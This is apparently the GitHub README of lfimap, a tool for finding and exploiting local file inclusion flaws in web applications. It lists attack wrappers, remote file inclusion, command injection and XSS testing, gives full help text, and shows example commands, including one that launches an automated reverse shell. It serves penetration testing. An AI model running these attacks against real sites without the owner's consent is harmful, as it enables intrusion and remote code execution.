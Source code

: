 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote command execution
- expect:// for remote command execution
- input:// for remote command execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Path truncation for arbitrary file inclusion
- Command injection for remote command execution
- Reflected XSS testing
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option for automated reverse shell attack upon code execution detection

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)
- [Usage](https://github.com/hansmach1ne/lfimap/wiki)

### -h, --help
```

usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] [--useragent <agent>] 
                 [--referer <referer>] [--param <name>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r] [-c] [--file] [--xss] 
                 [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] [-wT <path>] [-wX <path>] [-wC <path>] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]                       Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]                   Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>                    Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>                   Do HTTP POST value test. Ex: "param=PWN"
  -H <header>                    Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>                     Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>            Specify HTTP user agent
  --referer <referer>            Specify HTTP referer
  --param <name>                 Specify different test parameter value
  --no-stop                      Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter                   Attack using filter:// wrapper
  -i, --input                    Attack using input:// wrapper
  -d, --data                     Attack using data:// wrapper
  -e, --expect                   Attack using expect:// wrapper
  -t, --trunc                    Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi                      Attack using remote file inclusion
  -c, --cmd                      Attack using command injection
  --file                         Attack using file:// wrapper
  --xss                          Test for reflected XSS
  --info                         Test for basic information disclosures
  -a, --all                      Use all available methods to attack

PAYLOAD OPTIONS:
  -x, --exploit                  Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>                Specify local ip address for reverse connection
  --lport <lport>                Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>                     Specify wordlist for truncation test
  -wX <path>                     Specify wordlist for xss test
  -wC <path>                     Specify wordlist for command injection test

OTHER:
  -v, --verbose                  Print more detailed output when performing attacks
  -h, --help                     Print this help message                   

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![1](https://user-images.githubusercontent.com/57464251/175751020-1528a8a6-acd5-4bb9-933c-31145c06df89.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![2](https://user-images.githubusercontent.com/57464251/175751030-c35ee579-b91e-4e42-85b1-56e97b00d768.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![3](https://user-images.githubusercontent.com/57464251/175751045-8f0faac8-75b1-44ce-a41a-f3f6a4076669.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
